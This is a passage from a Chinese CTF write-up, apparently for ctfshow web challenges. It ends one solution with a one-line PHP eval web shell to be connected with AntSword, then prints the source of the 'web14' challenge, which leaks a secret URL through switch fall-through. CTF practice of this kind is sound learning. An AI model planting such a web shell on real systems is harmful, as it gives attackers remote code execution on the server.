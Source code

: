 发现长度不能超过24，我们改成这样：

```
<?php @eval($_POST[1]);
```

然后蚁剑连接







### web14

```php
 <?php
include("secret.php");

if(isset($_GET['c'])){
    $c = intval($_GET['c']);
    sleep($c);
    switch ($c) {
        case 1:
            echo '$url';
            break;
        case 2:
            echo '@A@';
            break;
        case 555555:
            echo $url;
        case 44444:
            echo "@A@";
            break;
        case 3333:
            echo $url;
            break;
        case 222:
            echo '@A@';
            break;
        case 222:
            echo '@A@';
            break;
        case 3333:
            echo $url;
            break;
        case 44444:
            echo '@A@';
        case 555555:
            echo $url;
            break;
        case 3:
            echo '@A@';
        case 6000000:
            echo "$url";
        case 1:
            echo '@A@';
            break;
    }
}

highlight_file(__FILE__); 
```
